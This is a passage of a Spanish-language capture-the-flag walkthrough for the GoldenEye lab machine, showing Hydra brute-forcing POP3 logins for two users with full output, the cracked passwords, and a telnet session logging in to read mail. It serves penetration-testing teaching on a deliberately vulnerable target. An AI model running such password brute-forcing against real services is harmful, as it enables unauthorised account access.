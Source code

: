 Si vemos el código fuente hasta abajo, tenemos una leyenda que nos dice ***Qualified GoldenEye Network Operator Supervisors:  Natalya Boris***; por lo que ya debemos estar pensando que podrian ser usuarios a nivel de sistema. Nos vemos nada más interesante aquí, así que vamos a pasar por otros puertos que nos dio `nmap` y este caso sería el puerto 55007 asociado al servicio POP3. Si probamos las credenciales que tenemos, no obtenemos ningún resultado, así que vamos a tratar de emplear fuerza bruta para obtener las credenciales para ambos usuarios y para este caso vamos utilizar el diccionario `/usr/share/wordlists/fasttrack.txt` debido a que la contraseña no aparece en nuestro diccionario de confianza `rockyou.txt`:

```bash
❯ hydra -l boris -P /usr/share/wordlists/fasttrack.txt pop3://10.0.0.24 -s 55007
Hydra v9.1 (c) 2020 by van Hauser/THC & David Maciejak - Please do not use in military or secret service organizations, or for illegal purposes (this is non-binding, these *** ignore laws and ethics anyway).

Hydra (https://github.com/vanhauser-thc/thc-hydra) starting at 2022-01-01 18:13:13
[INFO] several providers have implemented cracking protection, check with a small wordlist first - and stay legal!
[DATA] max 16 tasks per 1 server, overall 16 tasks, 222 login tries (l:1/p:222), ~14 tries per task
[DATA] attacking pop3://10.0.0.24:55007/
[STATUS] 80.00 tries/min, 80 tries in 00:01h, 142 to do in 00:02h, 16 active
[STATUS] 64.00 tries/min, 128 tries in 00:02h, 94 to do in 00:02h, 16 active
[55007][pop3] host: 10.0.0.24   login: boris   password: secret1!
1 of 1 target successfully completed, 1 valid password found
Hydra (https://github.com/vanhauser-thc/thc-hydra) finished at 2022-01-01 18:15:53
```

```bash
❯ hydra -l natalya -P /usr/share/wordlists/fasttrack.txt pop3://10.0.0.24 -s 55007
Hydra v9.1 (c) 2020 by van Hauser/THC & David Maciejak - Please do not use in military or secret service organizations, or for illegal purposes (this is non-binding, these *** ignore laws and ethics anyway).

Hydra (https://github.com/vanhauser-thc/thc-hydra) starting at 2022-01-01 18:18:41
[INFO] several providers have implemented cracking protection, check with a small wordlist first - and stay legal!
[DATA] max 16 tasks per 1 server, overall 16 tasks, 222 login tries (l:1/p:222), ~14 tries per task
[DATA] attacking pop3://10.0.0.24:55007/
[STATUS] 80.00 tries/min, 80 tries in 00:01h, 142 to do in 00:02h, 16 active
[55007][pop3] host: 10.0.0.24   login: natalya   password: bird
[STATUS] 111.00 tries/min, 222 tries in 00:02h, 1 to do in 00:01h, 15 active
1 of 1 target successfully completed, 1 valid password found
Hydra (https://github.com/vanhauser-thc/thc-hydra) finished at 2022-01-01 18:20:41
```

Ya contamos con credeciales de acceso al servicio POP3, así que vamos a echarle un ojito a los correos, primero para el usuario **Boris**:

```bash
❯ telnet 10.0.0.24 55007  
Trying 10.0.0.24...                                             
Connected to 10.0.0.24.                                         
Escape character is '^]'.                                       
+OK GoldenEye POP3 Electronic-Mail System     
USER boris                                                      
+OK                           
PASS secret1!
+OK Logged in.                                                                                                                   LIST                                                            
+OK 3 messages:
1 544 
2 373         
3 921                        
.                   
RETR 1                    
+OK 544 octets                                                  
```